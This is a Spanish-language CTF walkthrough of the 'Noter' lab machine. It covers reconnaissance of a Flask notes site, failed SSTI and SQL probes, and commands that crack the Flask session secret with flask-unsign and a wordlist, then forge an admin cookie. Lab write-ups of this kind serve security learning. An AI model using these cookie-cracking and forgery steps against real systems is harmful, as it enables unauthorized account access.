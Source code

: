 10.10.11.160 Noter

![Noter](https://user-images.githubusercontent.com/96772264/198710836-77eda524-c806-4531-b254-5875e9119f82.png)

------------------

Puertos abiertos 21(ftp), 22(ssh) y 5000(http)

```console
└─$ whatweb http://10.10.11.160:5000http://10.10.11.160:5000 [200 OK] Bootstrap[3.3.7], HTML5, HTTPServer[Werkzeug/2.0.2 Python/3.8.10], IP[10.10.11.160], Python[3.8.10], Script[text/javascript], Title[Noter],
```
----------------------

# Parte 1: Reconocimiento Web

Es una web de notas, como va por Python es muy probable que haya un STTI.  
- En el apartado /VIP dice que **No pueden dar membresias por un problema en el backend**  
- EN /edit_note me sale directamente la 3, como que hay dos notas antes si pongo 1 o 2 da error sql (pero no funciona ninguna inyección)  

![noter3](https://user-images.githubusercontent.com/96772264/198711340-9fbceed0-3cc7-4e40-9bad-545dba43e31e.PNG)

```console
└─$ curl -s http://10.10.11.160:5000/edit_note/1 --cookie "session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY3VjdXhpaXt7Nyo3fX0ifQ.Y1lb4g.TD5K_B9pe7Z0nyo3R8DA4PmwjRM"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
```
Probamos fuzzing pero no hay resultados.  

------------------------------

# Parte 2: Obtencion de un usaurio

Lo primero que hay es un panel de registro, como tenemos python intenté colar un STTI pero no aplica (tanto en el panel de registro como en la   
utilidad de la web de crear y editar una nota):

![noter1](https://user-images.githubusercontent.com/96772264/198711037-b2902d8d-6b95-4f83-9e9f-6c53481a2910.PNG)

La cookie ```eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY3VjdXhpaXt7Nyo3fX0ifQ.Y1lb4g.TD5K_B9pe7Z0nyo3R8DA4PmwjRM```se decodifica en:  
```{"logged_in": true, "username": "cucuxii"}```,  esa es la tipica estrucutra de las cookies de flask.  
```console
└─$ flask-unsign --unsign --wordlist '/usr/share/wordlists/rockyou.txt' --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiY3VjdXhpaXt7Nyo3fX0ifQ.Y1lb4g.TD5K_B9pe7Z0nyo3R8DA4PmwjRM' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'cucuxii'}
b'secret123'
└─$ flask-unsign --sign  --cookie "{'logged_in': True, 'username': 'admin'}" --secret 'secret123'
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Y1llwA.mVo32E2J2WotjCks0t69am5TCV8
```
Cuando meto la cookie en la web me da error "Unauthorized" porque el usuario admin no existe.  
